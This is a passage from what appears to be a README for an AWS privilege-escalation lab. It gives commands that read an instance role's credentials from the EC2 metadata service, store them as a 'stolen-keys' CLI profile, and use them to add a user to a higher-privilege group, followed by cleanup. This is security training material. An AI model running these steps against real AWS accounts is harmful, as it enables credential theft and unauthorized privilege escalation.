 15. Run a curl command inside the machine to access with the role name - TODO, provide detail as to how to get the role name
Refs: 
- https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html
- https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html
```
#IMDSv1
curl http://169.254.169.254/latest/meta-data/iam/securitycredentials/privesc-high-priv-service-role
```
```
# IMDSv2
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` \
&& curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/privesc-high-priv-service-role
```

16. From another termnial (not the ssh session), create a new profile and add the access, secret key, and region and then edit the credentials file to also add the token

```
aws configure --profile stolen-keys
```
```
vi ~/.aws/credentials
    
# add this line with the token under the new profile
aws_session_token = <TOKEN>
```
 
17. Add user to group using the **stolen-keys** profile
```
aws iam add-user-to-group --group-name privesc-sre-group --user-name privesc3-CreateEC2WithExistingInstanceProfile-user --profile stolen-keys
```
 
18. Verify the user now belows to the higher privilege group with optional `--profile` flag
```
aws iam list-groups-for-user --user-name privesc3-CreateEC2WithExistingInstanceProfile-user
``` 

### CLEANUP
- Delete instance, group policy from user via Console

- Delete ssh key both from aws and public key locally
```
aws ec2 delete-key-pair --key-name $KEY_NAME --region us-east-1
rm -rf $KEY_NAME.pem
```

## References:
- https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-files.html
- https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html
- https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html
- [Unintended side affects to disable IMDS completely](https://repost.aws/questions/QU28Zq5Ge0Q5WJF27HPNMhoA/are-there-any-unintended-side-effects-of-disabling-the-ec-2-instance-metadata-service-endpoint-both-imd-sv-1-imd-sv-2)
